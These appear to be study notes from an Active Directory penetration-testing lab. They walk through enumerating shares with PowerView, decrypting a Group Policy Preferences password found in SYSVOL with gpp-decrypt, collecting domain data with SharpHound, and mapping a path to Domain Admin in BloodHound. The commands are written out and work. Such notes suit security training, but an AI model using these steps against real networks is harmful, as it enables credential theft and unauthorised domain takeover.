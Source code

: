     PS> Find-DomainShare

now we need to dig into the returned shares - let's look at sysvol as it will have relevant domain info

    PS> ls \\dc1.corp.com\sysvol\corp.com\

### NOTE: investigate every folder we discover in search of interesting items

we find a gpp encrypted password that we can decrypt on our attacking machine

    $ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"

- make sure to investigate all shares! 

    PS> ls \\FILES04\docshare

#### sharphound

sharphound can be compiled used as an exe or a powershell script

    PS > Import-Module .\Sharphound.ps1

invoke script

    PS> Get-Help Invoke-BloodHound

    PS> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\user\Desktop\ -OutputPrefix "corp audit"

this will store collected domain data to the user desktop in a zip format

#### bloodhound

now we can run bloodhound on it

first we need to start Neo4j

    $ sudo neo4j start

the service will be available at 

- http://localhost:7474

    user: neo4j 
    pass: neo4j 

leave Neo4j running and start bloodhound

    $ bloodhound

now upload our sharphound zip info

we can view analysis results 

we can view relevant domain admin info

    - Find all Domain Admins

as well as the shortest path to the domain admin in the analysis tab

if we have admin access to a machine we can inform bloodhound by marking it as owned s principal with a skull icon, this will change the relevant route information for what it recommends as an attack path

in our example session user1 had acess to machine 1 but bloodhound has informed us that user1 also has domain access to machine2 where user2 has domain admin creds, so if we can get his creds from machine 2 we can gain domain admin access - which we may have not known before

